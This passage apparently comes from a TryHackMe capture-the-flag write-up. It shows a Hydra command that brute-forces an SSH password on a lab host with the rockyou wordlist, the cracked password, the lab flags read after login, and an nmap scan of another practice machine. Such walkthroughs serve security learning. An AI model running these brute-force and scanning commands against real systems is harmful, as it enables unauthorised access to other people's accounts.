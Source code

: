 Moving into that directory we also see a `/index.ejs`, and in that file we can find the flag that would be returned on the page if hydra ever found the password.

```
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

### 2 - Use Hydra to bruteforce molly's SSH password. What is flag 2?
```bash
jeffrowell@kali:~/Documents/eCPPT/Network_Security/Information Gathering/hyrdra_ha_ha_haa$ hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://$IP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-25 19:45:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.6.233:22/
[22][ssh] host: 10.10.6.233   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-25 19:45:21
```

SSH and get the flag:

```bash
molly@ip-10-10-6-233:~$ ls
flag2.txt
molly@ip-10-10-6-233:~$ cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
```

## Task 23 -- [Day 18] ELF JS

```
export IP=10.10.12.209
```

Initial nmap scan:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_js$ nmap -sC -sV -Pn -n -oN nmap/initial $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-27 01:23 MDT
Nmap scan report for 10.10.12.209
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 83:86:ab:3c:f1:3f:4c:c1:83:b9:55:95:f5:d3:4e:c6 (RSA)
|   256 f7:f7:d6:88:22:d4:52:c4:52:e9:d7:37:45:03:17:a8 (ECDSA)
|_  256 06:89:b7:28:d8:bf:d5:4a:f9:e1:3d:fd:9d:2b:f0:06 (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
3000/tcp open  http    Node.js Express framework
| http-title: Hacker Forum | Login
|_Requested resource was /login

```